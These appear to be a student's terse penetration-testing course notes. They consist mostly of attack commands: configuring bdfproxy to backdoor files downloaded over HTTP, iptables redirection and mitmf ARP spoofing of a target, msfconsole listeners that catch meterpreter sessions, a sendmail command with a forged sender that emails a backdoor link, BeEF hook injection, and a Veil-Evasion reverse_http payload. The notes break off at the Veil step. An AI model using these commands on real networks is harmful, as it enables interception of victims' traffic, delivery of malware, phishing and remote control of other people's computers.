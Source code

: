 `gedit/leafpad /etc/bdfproxy/bdfproxy.cfg`

starting bdfproxy, resource written to is the file where we can listen to the all the incoming connections

`bdfproxy`

redirecting traffic to bdfproxy, redirect any connection from 80 port to port 8080

`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT  --to-port 8080`

starting arp spoofing

`mitmf --arp --spoof -i <interface> --gateway <gateway ip> --targets <target ip>`

start listening for connections

`msfconsole -r /usr/share/bdfproxy/bdf_proxy_msf_resource.rc`

now go to the target machine and download and install sthng. then we will get a new meterpreter session, we can interact with the session by running 

`session -i <# of the session, in this case 1>`

`sysinfo`

when done reset ip tables rules

`./flushiptables.sh`

### winmd5 

download winmd5 to check if a file signature has changed

### maltego tool

see 12th folder video

if your backdoor is a image or pdf u would want remove .exe from it after processing it.

`sendmail -s <server:port> -xu <username> -xp <password> -f "<from email>" -t "<to email>" -u "<subject of the email>" -m "<message body insert backdoor file link>" -o message-header="From:<from name of the person or the company> <from mail name also put angular brackets before and after email address>"`

### beef  tool

`mitmf --arp --spoof --gateway <gateway ip> --targets <target ip> -i <interface name> --inject --js-url <url of the hook>`

watch 12th folder vuideoes


### veil-evasion tool using public ip

`veil-evasion`

`list`

we will use cs/meterpreter/rev_http
